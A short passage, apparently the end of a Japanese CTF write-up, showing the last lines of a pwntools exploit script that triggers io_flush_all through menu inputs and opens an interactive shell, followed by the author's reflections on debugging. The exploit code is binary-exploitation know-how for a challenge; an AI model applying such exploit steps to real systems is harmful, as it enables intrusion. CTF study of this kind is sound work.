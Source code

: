 ```python
ct = search_ct(pt, iv, key)
conceal(9, 0x60, ct)

if args.D:
    debug(r, [0x17d7])

# trigger io_flush_all
r.sendlineafter('ID:', '1')
r.sendlineafter('quest\n', '4')
r.sendafter('here?\n', 'win')

r.interactive()
r.close()
```

まとめます。
- 正常系にバグがあって、それが攻撃に乗るならともかく、単純に正しく動作しないだけというのは不思議
- 人の謎パッチを疑う前に、ちゃんと処理を追いましょう（自戒）
